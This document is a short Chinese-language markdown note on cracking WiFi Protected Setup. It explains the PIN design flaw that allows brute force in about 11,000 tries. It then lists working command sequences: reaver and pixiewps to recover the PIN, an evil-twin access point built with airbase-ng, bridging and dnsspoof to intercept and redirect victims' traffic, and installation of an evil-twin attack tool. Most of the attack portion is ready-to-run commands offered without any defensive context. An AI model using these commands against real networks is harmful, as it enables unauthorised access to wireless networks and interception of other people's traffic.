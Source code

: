 
# wps破解

* 描述

* airodump-ng

* wifite

* 3vilTwinAttacker

## 描述
> WPS是WiFi联盟2006年开发的一项技术   
>> 通过PIN码来简化无线接入的操作，无需记住PSK  
>> 路由器和网卡各按一个按钮就能接入无线  
>> PIN码是分为前后各4位的2段共8位数字  
> 安全漏洞  
>> 2011年被发现安全涉及漏洞  
>> 接入发起方可以根据路由器的返回信息判断前4位是否正确  
>> 而PIN码的后4位只有1000种定义的组合（最后一位是checksum）  
>> 所以全部穷举破解只需要11000次尝试  
>>> PSK：218340105584896种可能     
>> 标准本身没有设计锁定机制，目前多个厂商已实现锁定机制  

> 都要支持WPS功能，初衷是：物理连接，物理确认（通过按钮  ）。  
> AP要是支持WPS的话，只要尝试最多11000次找出PIN码，就会被破解。


## wps破解
```shell 
    service network-manager stop
    airmon-ng check kill

    1.启动监听模式后，发现支持wps的ap
        wash -C -i wlan0mon
        airodump-ng wlan0mon -b <ap mac> --wps
    2.爆破pin码
        reaver -i wlan0mon -b <ap mac> -vv
    3.秒破pin码
        reaver -i wlan0mon -b <ap mac> -vv -K l
        pixiewps
        reaver -i wlan0mon -b <ap mac> -vv -p 8888888
```


## wifite
```shell 
* EVIL TWIN AP	
    1. airbase-ng -a <AP mac> --essid "kifi" -c 11 wlan0mon
    2. apt-get install bridge-utils
    3. brctl addbr bridge
    4. brctl addif bridge eth0
        dhclient eth0 (获取有线ip)
    5. brctl addif bridge at0
    6. ifconfig eth0 0.0.0.0 up
    7. ifconfig at0 0.0.0.0 up
    8. ifconfig bridge 192.168.1.10 up
    9. route add -net 0.0.0.0 netmask 0.0.0.0 gw 192.168.1.1
    10. echo 1 > /proc/sys/net/ipv4/ip_forward

    11. dnspoof -i bridge -f dnsspoof.hosts
        /usr/share/dsniff/dnsspoof.hosts
    12. apachet2ctl start
```

## 3vilTwinAttacker
```shell 
    1. git clone https://github.com/P0cl4bs/3vilTwinAttacker.git
    2. cd 3vilTwinAttacker
    3. chmod +x installer.sh
    4. ./installer.sh install
```

